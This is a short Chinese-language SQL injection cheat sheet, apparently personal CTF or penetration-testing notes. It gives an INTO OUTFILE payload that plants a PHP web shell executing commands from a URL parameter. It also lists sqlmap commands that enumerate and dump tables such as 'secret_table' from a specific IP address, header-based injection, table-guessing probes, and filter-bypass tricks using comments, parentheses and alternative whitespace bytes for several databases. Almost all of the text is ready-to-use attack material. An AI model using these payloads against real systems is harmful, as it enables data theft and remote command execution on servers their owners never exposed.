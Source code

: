 前提：开启 secure_file_priv，并且具有写的权限

```sql
select 1,2,'<?php system($_GET["cmd"])?>' into outfile 'H:\\a.php'--%20
```



**POST 登录框 sqlmap跑法**

```shell
sqlmap -u "http://47.96.118.255:33066/" --forms --dbs
sqlmap -u "http://47.96.118.255:33066/" --forms -D news --tables
sqlmap -u "http://47.96.118.255:33066/" --forms -D news -T secret_table --dump
```

**自定义注入位置，如 XFF 注入**

```shell
sqlmap -u "http://192.168.118.142/" --headers="X-Forwarded-For: *" --banner
```

**猜解数据表**

找到注入点后，进行猜解

```sql
and exists(select * from user)  -- 表存在页面就会返回正常，否则报错
and exists(select * from amdin)
```

### Bypass

检测被过滤的关键词：

+ id = 1 ^ (length(‘xxx’)=3)

#### 空格

- 使用注释绕过，/**/ (/\*1\*/)

- 使用括号绕过，括号可以用来包围子查询，任何计算结果的语句都可以使用 ( ) 包围

    ```sql
    select(group_concat(table_name))
    from(information_schema.tables)
    where(table_schema=database())
    ```

- 使用符号替代空格 

    ```
    %20 	空格
    %09		TAB 键（水平）
    %0b		TAB 键（垂直）
    %0d		return 功能
    %0c		新的一页
    %a0		空格
    %0a		新建一行
    
    SQLite3 0A 0D 0C 09 20 
    MySQL5 09 0A 0B 0C 0D A0 20 
    PosgresSQL 0A 0D 0C 09 20 
    Oracle 11g 00 0A 0D 0C 09 20 
    MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
